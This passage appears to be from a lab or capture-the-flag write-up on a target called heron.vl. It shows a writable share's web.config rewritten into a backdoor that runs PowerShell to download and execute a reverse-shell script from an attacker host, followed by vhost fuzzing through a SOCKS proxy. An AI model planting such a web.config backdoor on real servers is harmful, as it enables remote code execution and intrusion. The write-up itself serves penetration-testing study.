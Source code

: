 Checking shares again with this user shows that we can read and write to `accounting$`

In the share there is a `web.config` file. This can be used to backdoor the application and gain RCE in the context of the IIS server. This is a good post if you want more information: https://soroush.me/blog/2019/08/uploading-web-config-for-fun-and-profit-2/

As there is no need to do any fancy opsec stuff, I'm just going to `iex` a powershell revtcp oneliner. (not adding shell.ps1 as it triggers chromes AV scanner :|)

The new `web.config`:
```
cat web.config
<?xml version="1.0" encoding="utf-8"?>
<configuration>
  <location path="." inheritInChildApplications="false">
    <system.webServer>
      <handlers>
        <add name="aspNetCore" path="shell.me" verb="*" modules="AspNetCoreModuleV2" resourceType="Unspecified" />
      </handlers>
          <aspNetCore processPath="cmd.exe" arguments="/c powershell.exe iex(New-Object Net.WebClient).downloadString('http://IP:8080/shell.ps1')"/>
    </system.webServer>
  </location>
</configuration>
<!--ProjectGuid: 803424B4-7DFD-4F1E-89C7-4AAC782C27C4-->
```

So going to the path `gimmieshell.pls` should give us a rev shell back. The annoying thing is going to be doing this all via the socks proxy, as the webapp wont be able to talk directly to our box.

What we can do is open up 2 reverse port forwards from the jump box to us. One for the payload download, and the other for a shell.

At this stage I tried a few different ways to forward a port so I dont have to use the jump box to stage and catch a shell but nothing seemed to work.

As im still not sure what website this controls im going to quickly fuzz for vhosts:

```
ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://heron.vl -H "Host: FUZZ.heron.vl" -x socks5://127.0.0.1:1080 -fw 1230

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://heron.vl
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.heron.vl
 :: Follow redirects : false
 :: Calibration      : false
 :: Proxy            : socks5://127.0.0.1:1080
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 1230
________________________________________________

accounting              [Status: 401, Size: 0, Words: 1, Lines: 1, Duration: 4036ms]
```
